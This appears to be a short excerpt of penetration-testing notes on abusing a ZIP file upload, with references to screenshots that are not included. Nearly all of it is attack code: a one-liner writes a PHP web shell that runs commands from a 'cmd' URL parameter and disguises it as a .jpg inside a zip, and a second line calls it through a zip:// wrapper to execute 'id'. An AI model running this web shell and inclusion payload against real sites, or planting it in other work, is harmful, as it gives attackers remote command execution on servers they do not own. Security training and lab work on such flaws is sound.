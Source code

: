 In the following example, ZIP files are allowed to be uploaded:

![[Pasted image 20250124133327.png]]

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```bash
zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

![[Pasted image 20250124133920.png]]

